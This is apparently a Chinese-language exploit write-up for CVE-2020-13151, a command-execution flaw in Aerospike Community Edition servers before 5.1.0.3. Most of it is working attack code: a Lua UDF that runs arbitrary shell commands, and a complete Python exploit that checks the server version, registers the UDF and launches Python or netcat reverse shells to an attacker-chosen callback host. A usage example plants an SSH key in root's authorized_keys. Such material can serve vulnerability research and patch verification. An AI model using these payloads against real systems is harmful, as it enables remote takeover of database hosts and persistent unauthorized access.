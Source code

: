 （CVE-2020-13151）Aerospike 数据库主机命令执行漏洞
==================================================

一、漏洞简介
------------

攻击者借助特制的UDF利用该漏洞以当前用户权限在该集群的所有节点上执行任意的操作系统命令。

二、漏洞影响
------------

Aerospike 社区版 \<5.1.0.3

三、复现过程
------------

首先导入`CVE-2020-13151.lua`

    function runCMD(rec, cmd)
        local outtext = ""
        local phandle = io.popen(cmd)
        io.input(phandle)
        local foo = io.lines()
        for f in foo do
            outtext = outtext .. f .. "\n"
        end
        return outtext
    end

3.png

创建单记录测试数据集以进行以下操作：

4.png

然后在最终在我们连接的主机上执行命令：

5.png

### poc

> CVE-2020-13151

1.png

2.png

    #!/usr/bin/env python3
    import argparse
    import random
    import os, sys
    from time import sleep
    import string

    # requires aerospike package from pip
    import aerospike
    # if this isn't installing, make sure os dependencies are met
    # sudo apt-get install python-dev
    # sudo apt-get install libssl-dev
    # sudo apt-get install python-pip
    # sudo apt-get install zlib1g-dev

    PYTHONSHELL = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&"""
    NETCATSHELL = 'rm /tmp/ft;mkfifo /tmp/ft;cat /tmp/ft|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/ft&'

    def _get_client(cfg):
        try:
            return aerospike.client({
                'hosts': [(cfg.ahost, cfg.aport)],
                 'policies': {'timeout': 8000}}).connect()

        except Exception as e:
            print(f"unable to access cluster @ {cfg.ahost}:{cfg.aport}\n{e.msg}")

    def _send(client, cfg, _cmd):
        try:
            print(client.apply((cfg.namespace, cfg.setname, cfg.dummystring ), 'poc', 'runCMD', [_cmd]))
        except Exception as e:
            print(f"[-] UDF execution returned {e.msg}")

    def _register_udf(client, cfg):
        try:
            client.udf_put(cfg.udfpath)
        except Exception as e:
            print(f"[-] whoops, couldn't register the udf {cfg.udfpath}")
            raise e

    def _random_string(l):
        return ''.join([random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(l)])

    def _populate_table(client, cfg):
        ns = cfg.namespace
        setname = cfg.setname
        print(f"[+] writing to {ns}.{setname}")
        try:
            rec = cfg.dummystring
            client.put((ns, setname, rec), {'pk':cfg.dummystring})
            print(f"[+] wrote {rec}")
        except Exception as e:
            print(f"[-] unable to write record: {e.msg}")
            try:
                if e.msg.startswith('Invalid namespace'):
                    print("Valid namespaces: ")
                    for n in _info_parse("namespaces", client).split(";"):
                        print(n.strip())
            except:
                pass
            sys.exit(13)

    def _info_parse(k, client):
        try: 
            return [i[1] for i in client.info_all(k).values() ][0]
        except Exception as e:
            print(f"error retrieving information: {e.msg}")
            return []

    def _is_vuln(_mj, _mi, _pt, _bd):
        fixed = [5,1,0,3]
        found = [_mj, _mi, _pt, _bd]

        if fixed == found:
            return False

        for ix, val in enumerate(found):
            if val < fixed[ix]:
                return True
            elif val == fixed[ix]:
                pass
            else:
                return False


    def _version_check(client):
        print("[+] aerospike build info: ", end="")
        try:
            _ver = _info_parse("build", client)
            print(_ver)
            mj, mi, pt, bd = [int(i) for i in _ver.split('.')]
            if _is_vuln(mj, mi, pt, bd):
                print("[+] looks vulnerable")
                return
            else:
                print(f"[-] this instance is patched.")
                sys.exit(0)

        except Exception as e:
            print(f"[+] unable to interpret build number due to {e}")
            print("[+] continuing anyway... ")

    def _exploit(cfg):
        client = _get_client(cfg)
        
        if not client:
            return

        _version_check(client)

        print(f"[+] populating dummy table.")
        _populate_table(client, cfg)

        print(f"[+] registering udf")
        
        _register_udf(client, cfg)

        if cfg.pythonshell or cfg.netcatshell:
            sys.stdout.flush()
            print(f"[+] sending payload, make sure you have a listener on {cfg.lhost}:{cfg.lport}", end="")
            sys.stdout.flush()
            for i in range(4): 
                print(".", end="")
                sys.stdout.flush()
                sleep(1)

            print(".")
            _send(client, cfg, PYTHONSHELL.format(ip=cfg.lhost,port=cfg.lport) if cfg.pythonshell else NETCATSHELL.format(ip=cfg.lhost,port=cfg.lport) )
        
        if cfg.cmd:
            print(f"[+] issuing command \"{cfg.cmd}\"")
            _send(client, cfg, cfg.cmd)

    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print(f"[+] usage examples:\n{sys.argv[0]} --ahost 10.11.12.13 --pythonshell --lhost=10.0.0.1 --lport=8000")
            print("... or ... ")
            print(f"{sys.argv[0]} --ahost 10.11.12.13 --cmd 'echo MYPUBKEY > /root/.ssh/authorized_keys'")
            sys.exit(0)

        parser = argparse.ArgumentParser(description='Aerospike UDF Command Execution - CVE-2020-13151 - POC')
        
        parser.add_argument("--ahost", help="Aerospike host, default 127.0.0.1", default="127.0.0.1")
        parser.add_argument("--aport", help="Aerospike port, default 3000", default=3000, type=int)
        parser.add_argument("--namespace", help="Namespace in which to create the record set", default="test")
        parser.add_argument("--setname", help="Name of set to populate with dummy record(s), default is cve202013151", default=None)
        parser.add_argument('--dummystring', help="leave blank for a random value, can use a previously written key to target a specific cluster node", default=None)
        parser.add_argument("--pythonshell", help="attempt to use a python reverse shell (requires lhost and lport)", action="store_true")
        parser.add_argument("--netcatshell", help="attempt to use a netcat reverse shell (requires lhost and lport)", action="store_true")
        parser.add_argument("--lhost", help="host to use for reverse shell callback")
        parser.add_argument("--lport", help="port to use for reverse shell callback")
        parser.add_argument("--cmd", help="custom command to issue against the underlying host")
        parser.add_argument('--udfpath', help="where is the udf to distribute? defaults to `pwd`/poc.lua", default=None)

        cfg = parser.parse_args()
        if not cfg.setname:
            cfg.setname = 'cve202013151'
        if not cfg.dummystring:
            cfg.dummystring = _random_string(16)
        if not cfg.udfpath:
            cfg.udfpath = os.path.join(os.getcwd(), 'poc.lua')

        assert cfg.cmd or (cfg.lhost and cfg.lport and (cfg.pythonshell or cfg.netcatshell)), "Must specify a command, or a reverse shell + lhost + lport"
        if cfg.pythonshell or cfg.netcatshell:
            assert cfg.lhost and cfg.lport, "Must specify lhost and lport if using a reverse shell"

        _exploit(cfg)
